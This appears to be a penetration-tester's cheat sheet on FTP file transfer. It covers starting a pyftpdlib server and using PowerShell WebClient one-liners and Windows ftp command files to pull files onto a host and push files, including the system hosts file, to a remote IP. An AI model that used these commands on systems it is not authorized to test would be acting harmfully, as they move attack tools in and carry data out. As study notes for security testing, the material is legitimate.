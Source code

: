```ftp
ftp -p <IP>
```
## FTP Downloads
#### pyftpdlib
```shell
sudo pip3 install pyftpdlib
```
#### Setting up a Python3 FTP Server
```shell
sudo python3 -m pyftpdlib --port 21
```
#### Transfering Files from an FTP Server Using PowerShell
```powershell
(New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')
```
#### Create a Command File for the FTP Client and Download the Target File
```cmd
echo open 192.168.49.128 > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo GET file.txt >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt
```
##### FTP
```ftp
ftp> open 192.168.49.128
Log in with USER and PASS first.
ftp> USER anonymous

ftp> GET file.txt
ftp> bye
```
## FTP Uploads
```shell
sudo python3 -m pyftpdlib --port 21 --write
```
#### PowerShell Upload File
```powershell
(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```
#### Create a Command File for the FTP Client to Upload a File
```cmd
echo open 192.168.49.128 > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128

Log in with USER and PASS first.

ftp> USER anonymous
ftp> PUT c:\windows\system32\drivers\etc\hosts
ftp> bye
```
